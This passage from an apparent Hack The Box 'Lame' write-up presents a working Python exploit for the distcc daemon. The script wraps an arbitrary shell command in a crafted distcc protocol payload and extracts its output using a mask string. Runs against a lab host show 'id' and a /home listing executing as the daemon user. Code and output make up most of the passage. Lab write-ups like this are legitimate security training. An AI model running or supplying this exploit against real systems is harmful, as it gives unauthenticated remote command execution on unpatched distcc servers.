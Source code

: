 

    #!/usr/bin/env python3

    import socket
    import sys


    if len(sys.argv) != 4:
        print(f"{sys.argv[0]} [ip] [port] [command]")
        sys.exit(1)
    _, ip, port, cmd = sys.argv
    mask = "0xdffdx0"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, int(port)))
    full_cmd = f"sh -c '(echo -n {mask};{cmd};echo -n {mask})'"
    payload = f"""DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV{len(full_cmd):8x}{full_cmd}ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-               oARGV00000006main.oDOTI00000001A"""
    s.send(payload.encode())
    resp = s.recv(4096)
    print(resp.decode(errors="ignore").split(mask)[1].strip())



The script is very simple. It gets an IP, port, and command from
arguments. Then it creates the payload string using the input command.
Looking at the results coming back, I want a reliable way to pull out
the command output. It looks like it may always start the same number of
bytes in, but to be sure, I'll have the command `echo` a unique mask
before and after the input command, and then use that to split and find
the output.

It runs and returns results:



    root@kali# ./distcc_exec.py 10.10.10.3 3632 'id'
    uid=1(daemon) gid=1(daemon) groups=1(daemon)

    root@kali# ./distcc_exec.py 10.10.10.3 3632 'ls /home/'
    ftp
    makis
    service
    user




[« Lame FTP and SMB](/htb-lame.md)






